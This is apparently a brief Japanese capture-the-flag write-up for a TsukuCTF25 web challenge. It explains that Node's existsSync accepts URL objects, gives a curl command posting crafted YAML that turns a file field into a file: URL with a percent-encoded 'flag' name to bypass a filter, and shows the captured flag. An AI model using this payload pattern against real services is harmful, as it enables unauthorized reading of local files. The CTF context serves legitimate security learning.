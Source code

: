 yaml.loadかjavascriptの脆弱性か？

existsSyncはPathLike=str|URL|Bufferで受け取るからfileをobjectにしてURLと認識させる

```bash
curl -X POST "http://20.2.250.108:50001" -H "Content-Type: text/plain" -d $'file:\n href: a\n protocol: "file:"\n hostname: ""\n pathname: fl%61g.txt\n origin: "file"'
```

きたーーーーーー

`TsukuCTF25{YAML_1s_d33p!}`
